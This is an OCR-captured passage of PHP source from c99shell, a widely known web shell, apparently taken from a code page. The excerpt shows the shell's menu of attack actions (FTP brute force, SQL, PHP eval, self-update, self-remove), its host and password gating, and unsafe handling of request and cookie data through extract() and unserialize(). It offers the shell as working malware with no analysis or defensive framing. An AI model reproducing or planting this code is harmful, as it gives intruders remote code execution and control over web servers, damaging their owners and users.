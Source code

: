array("&lt;b&gt;FTP brute&lt;/b&gt;",$surl."act=ftpquickbrute&d=%d"), 
array("&lt;b&gt;Sec.&lt;/b&gt;",$surl."act=security&d=%d"), 
array("&lt;b&gt;SQL&lt;/b&gt;",$surl."act=sql&d=%d"), 
array("&lt;b&gt;PHP-code&lt;/b&gt;",$surl."act=eval&d=%d"), 
array("&lt;b&gt;Update&lt;/b&gt;",$surl."act=update&d=%d"), 
array("&lt;b&gt;Feedback&lt;/b&gt;",$surl."act=feedback&d=%d"), 
array("&lt;b&gt;Self remove&lt;/b&gt;",$surl."act=selfremove"), 
array("&lt;b&gt;Logout&lt;/b&gt;","#\" onclick=\"if (confirm('Are you sure?')) window.close()") 
); 
//Highlight-code colors 
$highlight_background = "#c0c0c0"; 
$highlight_bg = "#FFFFFF"; 
$highlight_comment = "#6A6A6A"; 
$highlight_default = "#0000BB"; 
$highlight_html = "#1300FF"; 
$highlight_keyword = "#007700"; 
$highlight_string = "#000000"; 
@$f = $_REQUEST["f"]; 
@extract($_REQUEST["c99shcook"]); 
//END CONFIGURATION 
// \/Next code isn't for editing\/ 
@set_time_limit(0); 
$tmp = array(); 
foreach($host_allow as $k=&gt;$v) {$tmp[] = str_replace("\\*",".*",preg_quote($v));} 
$s = "!^(".implode("|",$tmp).")$!i"; 
if (!preg_match($s,getenv("REMOTE_ADDR")) and !preg_match($s,gethostbyaddr(getenv("REMOTE_ADDR")))) {exit("&lt;a href=\"http://ccteam.ru/releases/cc99shell\"&gt;c99shell&lt;/a&gt;: Access Denied - your host (".getenv("REMOTE_ADDR").") not allow");} 
if (!empty($login)) 
{ 
if (empty($md5_pass)) {$md5_pass = md5($pass);} 
if (($_SERVER["PHP_AUTH_USER"] != $login) or (md5($_SERVER["PHP_AUTH_PW"]) != $md5_pass)) 
{ 
  if (empty($login_txt)) {$login_txt = strip_tags(ereg_replace("&nbsp;|&lt;br&gt;"," ",$donated_html));} 
  header("WWW-Authenticate: Basic realm=\"c99shell ".$shver.": ".$login_txt."\""); 
  header("HTTP/1.0 401 Unauthorized"); 
  exit($accessdeniedmess); 
} 
} 
if ($act != "img") 
{ 
$lastdir = realpath("."); 
chdir($curdir); 
if ($selfwrite or $updatenow) {@ob_clean(); c99sh_getupdate($selfwrite,1); exit;} 
$sess_data = unserialize($_COOKIE["$sess_cookie"]); 
if (!is_array($sess_data)) {$sess_data = array();} 
if (!is_array($sess_data["copy"])) {$sess_data["copy"] = array();} 
if (!is_array($sess_data["cut"])) {$sess_data["cut"] = array();} 
$disablefunc = @ini_get("disable_functions"); 
if (!empty($disablefunc)) 
{ 
$disablefunc = str_replace(" ","",$disablefunc); 
$disablefunc = explode(",",$disablefunc); 
} 
if (!function_exists("c99_buff_prepare")) 
{ 
function c99_buff_prepare() 
{ 
global $sess_data; 
global $act; 
foreach($sess_data["copy"] as $k=&gt;$v) {$sess_data["copy"][$k] = str_replace("\\",DIRECTORY_SEPARATOR,realpath($v));} 